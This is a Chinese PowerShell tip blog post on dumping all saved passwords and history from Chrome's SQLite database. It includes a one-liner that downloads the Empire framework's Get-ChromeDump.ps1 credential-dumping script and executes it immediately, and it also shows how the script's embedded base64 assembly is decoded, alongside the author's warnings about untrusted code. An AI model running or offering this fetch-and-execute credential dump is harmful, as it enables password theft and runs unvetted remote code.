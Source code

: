 ```yaml
---
layout: post
date: 2019-07-29 00:00:00
title: "PowerShell 技能连载 - 转储 Chrome 的所有密码"
description: PowerTip of the Day - Dumping All Passwords from Chrome
categories:
- powershell
- tip
tags:
- powershell
- tip
- powertip
- series
---
```

在前面的技能中，我们演示了如何从个人 Windows 密码库转储所有密码。基本上任何密码管理器都是如此，因为这些程序的目的是返回它们为您存储的密码。

谷歌 Chrome 浏览器将您的个人密码（和网站历史记录）存储在 SQLLite 数据库中。PowerShell 可以轻松地访问这个数据库并为您转储信息。但是，要做到这一点，PowerShell 需要不属于 Windows 的特定 SQLLite 程序集。

下面的代码展示了如何 (a) 通过一行程序下载大量代码，(b) 在下载的代码中嵌入一个二进制 .net 程序集。

警告：只能在演示机器上运行此代码，或者确保先下载代码，然后在运行之前仔细检查。代码是从第三方下载的，您*永远*不知道这些代码是否包含恶意内容。

如果你希望转储 Chrome 的隐私信息，我们建议你把代码下载到一个安全的机器上，隔离并检查它，然后在需要的时候从本地保存的副本中使用它。永远不要从不可信的来源下载和执行代码，除非仔细检查代码的实际功能：

```powershell
# download the code from GitHub
$url = 'https://raw.githubusercontent.com/adaptivethreat/Empire/master/data/module_source/collection/Get-ChromeDump.ps1'
$code = Invoke-RestMethod -Uri $url -UseBasicParsing
# run the code
Invoke-Expression $code

# now you have a new function called Get-ChromeDump
Get-ChromeDump
```

注意，当Chrome运行时，SQLLite数据库被锁定。你需要关闭Chrome才能转储它的隐私数据。

代码来自未知或不可信源的事实并不意味着代码不好。事实上，当您查看代码时，您会发现一些有趣的技术：

```powershell
# download the code from GitHub
$url = 'https://raw.githubusercontent.com/adaptivethreat/Empire/master/data/module_source/collection/Get-ChromeDump.ps1'
# and copy it to the clipboard
Invoke-RestMethod -Uri $url -UseBasicParsing | Set-ClipBoard

# now paste the code into your editor of choice and inspect it!
```

您将看到，代码附带了访问 SQLLite 数据库所需的二进制 .net 程序集。二进制文件以 base64 编码为字符串。这是在你的电脑上恢复二进制的部分：

```powershell
$content = [System.Convert]::FromBase64String($assembly)
$assemblyPath = "$($env:LOCALAPPDATA)\System.Data.SQLite.dll"
Add-Type -Path $assemblyPath
```

下面是更多与安全相关的PowerShell单行程序：[https://chrishales.wordpress.com/2018/01/03/powershell-password-one-liners/](https://chrishales.wordpress.com/2018/01/03/powershell-password-one-liners/)

<!--本文国际来源：[Dumping All Passwords from Chrome](https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/dumping-all-passwords-from-chrome)-->

